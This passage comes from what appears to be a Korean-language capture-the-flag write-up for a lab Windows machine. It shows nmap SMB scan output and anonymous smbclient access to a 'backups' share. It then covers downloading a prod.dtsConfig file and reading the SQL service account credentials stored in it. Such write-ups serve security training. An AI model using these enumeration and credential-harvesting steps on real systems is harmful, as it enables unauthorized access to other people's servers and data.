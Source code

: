 ``` bash
|_  System time: 2024-02-15T18:04:50-08:00
|_clock-skew: mean: 1h36m01s, deviation: 3h34m42s, median: 0s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-02-16T02:04:46
|_  start_date: N/A
```

### SMB
smbclient를 통해 어떤 공유 항목이 있는지 확인해보자. 아래와 같이 backups가 존재한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# smbclient -L 10.129.95.187 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

접속해보니 'prod.dtsConfig' 란 파일이 존재하고 있기에 다운로드하였다.
> .dtsConfig 파일은 직접적으로 SQL Server에 접속하기 위한 것이 아니라, SQL Server Integration Services (SSIS) 패키지의 실행에 필요한 구성 정보를 저장하는 파일이다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# smbclient -N //10.129.95.187/backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2515674 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

sql 계정으로 추청되는 id, pw 값 획득이 가능하다. 
``` xml
┌──(root㉿kali)-[/home/user]
└─# cat prod.dtsConfig
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
### SQL logon - Fail
